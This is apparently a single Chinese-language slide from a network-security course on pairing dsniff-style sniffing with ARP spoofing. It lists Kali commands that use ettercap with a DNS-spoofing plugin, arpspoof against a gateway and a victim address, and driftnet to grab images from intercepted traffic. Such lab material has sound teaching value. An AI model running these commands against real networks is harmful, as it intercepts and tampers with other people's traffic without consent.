

# dsniff 结合arp攻击
结合ettercap
ettercap -Tq -P dns_spoof -M arp //192.168.1.120/ //
root@kali:~# driftnet -i eth0

结合arpspoof
arpspoof -i eth0 -t 192.168.1.1 192.168.1.12
root@kali:~# driftnet -i eth0

6